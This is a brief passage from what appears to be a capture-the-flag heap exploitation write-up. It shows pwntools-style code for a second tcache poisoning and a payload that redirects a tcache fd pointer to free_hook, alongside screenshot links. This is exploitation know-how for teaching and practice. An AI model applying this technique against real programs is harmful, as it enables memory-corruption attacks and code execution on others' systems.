 ‍

```bash
delete(12)

    delete(2)#second tcache poisoning
```

[![](assets/1700186924-8985266b7ac00906d1eb7e3afcb2446d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116163029-664d8598-845a-1.png)

[![](assets/1700186924-55fd280c3ff3d16be5e35e05308013f1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116163034-691bbba0-845a-1.png)

‍

```bash
payload=p64(0xdeadbeef)*12+p64(0x70)+p64(0x90)+p64(free_hook)
    add(0xb0,payload)#Cut a piece of memory from unsorted bin to control the fd pointer of tcache bin
```
